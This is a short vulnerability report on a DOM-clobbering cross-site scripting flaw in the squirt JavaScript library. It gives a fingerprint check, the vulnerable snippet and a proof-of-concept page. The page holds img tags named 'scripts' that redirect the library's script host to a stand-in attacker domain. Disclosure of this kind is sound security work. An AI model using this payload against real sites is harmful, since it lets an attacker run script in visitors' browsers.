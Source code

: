 ## squirt

### Meta

+ Library: squirt
+ Stars: 1.2K
+ Version: v0.0.1
+ Fingerprint: `typeof window.sq !== 'undefined'`
+ Payload: ```<img name="scripts" src="http://attack.hulk"><img name="scripts" src="http://attack.hulk">```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/cameron/squirt/tree/master

### Vulnerable Code Snippet

```javascript
var sq = window.sq;
sq.version = '0.0.1';
sq.host =  window.location.search.match('sq-dev') ?
  document.scripts[document.scripts.length - 1].src.match(/\/\/.*\//)[0]
        : '//www.squirt.io/bm/';
```


## PoC

Visit the page: `http://10.161.159.131:8080/squirt/poc.html?sq-dev=localhost:9999`

```html
<!--Library-->
<script> window.sq = {}; </script>
<script src="./squirt.js"></script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```

